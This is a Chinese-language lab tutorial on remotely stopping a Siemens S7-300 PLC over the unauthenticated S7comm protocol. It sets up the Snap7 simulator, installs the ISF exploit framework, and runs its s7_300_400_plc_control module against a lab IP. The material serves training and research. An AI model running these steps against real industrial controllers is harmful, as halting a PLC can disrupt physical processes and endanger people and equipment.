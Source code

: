 # S7-300 启停实验

<p align="center">
    <img src="../../../../assets/img/banner/s7comm.jpg">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**前言**

西门子（SIEMENS）公司的 PLC 产品包括 LOGO、S7-200、S7-1200、S7-300、S7-400、S7-1500 等。

西门子 PLC 在我国的应用比其他系列多。

西门子 S7 系列 PLC 体积小、速度快、标准化，具有网络通信能力，功能更强，可靠性高。S7 系列 PLC 产品可分为微型 PLC（如 S7-200），小规模性能要求的 PLC（如 S7-300）和中、高性能要求的PLC（如S7-400）等。

西门子 PLC 使用私有协议进行通信，它是利用 TPKT 和 ISO8073 的二进制协议。西门子的 PLC 通信端口均为 102 端口,。西门子 PLC 协议有3个版本，S7Comm 协议，早期 S7CommPlus 协议和最新的 S7CommPlus 协议。

S7-200、S7-300、S7-400 系列的 PLC 采用早期的西门子私有协议 S7comm 进行通信。该协议不像 S7CommPlus 的加密协议（S7-1500 等），不涉及任何反重复攻击机制，可以被攻击者轻易利用。S7comm-plus 协议引入了会话 ID 来防止重放攻击。

**实验环境**

`环境仅供参考`

- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- CentOS Linux release 7.7.1908
- VMware® Workstation 15 Pro - 15.0.0 build-10134415

---

# 环境搭建

本次实验用模拟器代替现场设备,先访问软件官网 http://snap7.sourceforge.net/ ,点击 Download 会跳转到 https://sourceforge.net/projects/snap7/files/ ,下载 snap7-full-1.4.2.7z

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/1.png)

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/2.png)

首先S7模拟器客户端连接主机,解压,打开 \rich-demos\x86_64-win64\bin 下 serverdemo.exe

输入本机 IP 点击 start 连接

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/3.png)

然后使用 S7 模拟器客户端,打开 clientdemo.exe 进行连接

输入本机 IP 点击 connect 连接

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/4.png)

此时服务端出现请求信息,表示连接成功

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/5.png)

---

# 漏洞利用

接下来采用开源的工控漏洞利用框架 ISF

工具地址 : https://github.com/dark-lbp/isf

使用 Centos 下载并使用
```bash
yum install -y python
wget https://bootstrap.pypa.io/get-pip.py
python get-pip.py

mkdir -p ~/.pip/
sudo tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
pip install -t /usr/lib/python2.7/site-packages -r requirements.txt
python2.7 isf.py
```

kali如下
```bash
python2 get-pip.py

mkdir -p ~/.pip/
sudo tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
python2 -m pip install -r requirements.txt
python2.7 isf.py
```

实际利用
```
use exploits/plcs/siemens/s7_300_400_plc_control
set target 192.168.141.128
run
```

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/6.png)

这里显示 `stop plc` ,同时查看模拟器中的输出,可以发现已经停止

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/7.png)

---

**Source & Reference**
- [工控安全 | 西门子S7-300攻击分析](https://www.freebuf.com/articles/ics-articles/228770.html)
- [工控安全：S7-1200 PLC远程启停攻击实验](https://www.key1.top/index.php/archives/469/)
